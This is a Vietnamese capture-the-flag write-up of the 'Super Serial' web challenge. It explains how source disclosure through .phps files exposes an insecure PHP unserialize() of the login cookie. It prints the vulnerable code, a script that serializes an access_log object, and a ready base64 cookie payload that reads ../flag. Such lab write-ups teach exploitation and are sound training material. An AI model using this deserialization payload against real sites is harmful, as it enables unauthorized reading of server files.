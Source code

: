 # Super Serial

![img](328)

Truy cập trang web:

![img](329)

Tôi đã thử chèn các payload để bypass login nhưng không được, tiếp theo tôi thử truy cập `robots.txt`:

![img](330)

Tôi tìm được path `/admin.phps`. Thử truy cập:

![img](331)

Tôi để ý là tại sao lại là `.phps`, thử truy cập `index.phps`:

![img](332)

Có thể truy cập, tôi tìm thêm được đoạn mã PHP:

    <?php
    require_once("cookie.php");

    if(isset($_POST["user"]) && isset($_POST["pass"])){
        $con = new SQLite3("../users.db");
        $username = $_POST["user"];
        $password = $_POST["pass"];
        $perm_res = new permissions($username, $password);
        if ($perm_res->is_guest() || $perm_res->is_admin()) {
            setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
            header("Location: authentication.php");
            die();
        } else {
            $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
        }
    }
    ?>

Tôi tiếp tục phát hiện ra 2 file `cookie.php` và `authentication.php`. Tôi thử truy cập cả 2 file, chỉ có thể truy cập `authentication.php`, còn `cookie.php` khi truy cập sẽ không hiển thị gì. 

![img](335)

Đồng thời, có thể truy cập `cookie.phps` và `authentication.phps`:

![img](333)

![img](334)

Lỗ hổng đầu tiên tôi tìm kiếm được là ở `cookie.phps`:

    if(isset($_COOKIE["login"])){
        try{
            $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
            $g = $perm->is_guest();
            $a = $perm->is_admin();
        }
        catch(Error $e){
            die("Deserialization error. ".$perm);
        }
    }

Đoạn mã này có lỗ hổng `deserialization` (giải tuần tự hóa):
- Server kiểm tra nếu có cookie `login` được gửi lên từ trình duyệt.
- Nếu có, server sẽ:
    - `URL-decode` nội dung cookie
    - `Base64-decode`
    - `unserialize()` để biến nó thành một đối tượng PHP (dạng gốc ban đầu là một object permissions)
- Sau đó, server sẽ gọi các hàm `$perm->is_guest()` và `$perm->is_admin()` để kiểm tra quyền.

Điểm yếu tồn tại ở đây là:
- Nếu có lỗi khi deserialize, chương trình sẽ rơi vào `catch`:

        catch(Error $e){
        die("Deserialization error. ".$perm);
        }

- Ở đây, `$perm` là object, nhưng được ép thành chuỗi (string) khi in ra => PHP sẽ tự gọi hàm `__toString()` của object:

        function __toString() {
        return $u.$p;
        }

Lỗ hổng tiếp theo tồn tại trong `authentication.phps`:

    class access_log {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }

Vai trò của từng hàm:

- `$log_file`: tên file để ghi/đọc log
- `append_to_log()`: ghi log vào file
- `read_log()`: đọc nội dung file log
- `__toString()`: khi object bị ép thành chuỗi, PHP sẽ gọi read_log() => đọc nội dung file và trả về

Mối liên hệ giữa `authentication.phps` và `cookie.phps`:

Trong file `cookie.phps`, nếu có cookie `login`, server sẽ thực hiện:

    $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));

=> Đây là điểm yếu quan trọng: attacker có thể gửi một `object serialize giả mạo` trong cookie, không cần phải là permissions, mà có thể là object bất kỳ – ví dụ: access_log.

Dựa vào hint từ thử thách, flag nằm ở `../flag`. Ý tưởng của tôi là tạo object `access.log` với `$log_file = "../flag"`, nghĩa là tôi sẽ đọc file `../flag` thay vì file `access.log`. 

Tiếp theo tôi sẽ serialize object `access_log` đó, sau đó `base64` + `urlencode` => gửi lên làm cookie `login`.

Khi server deserialize object này:
- Nó không có method `is_guest()` nên sẽ gây ra lỗi
- Rơi vào `catch`, nội dung `../flag` sẽ được in ra màn hình

Để lấy giá trị `serialize + base64 + urlencode` của object `access_log`, tôi thực hiện đoạn code sau:

    <?php

    class access_log
    {
        public $log_file;

        function __construct($lf) {
            $this->log_file = $lf;
        }

        function __toString() {
            return $this->read_log();
        }

        function append_to_log($data) {
            file_put_contents($this->log_file, $data, FILE_APPEND);
        }

        function read_log() {
            return file_get_contents($this->log_file);
        }
    }
    echo urlencode(base64_encode(serialize(new access_log("../flag"))));
    ?>

Thực thi đoạn code, tôi thu được giá trị: `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Tiếp theo, trên trang `application.php`, tôi sẽ thêm cookie `login` với giá trị là  `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`:

![img](336)

=> Tìm được flag


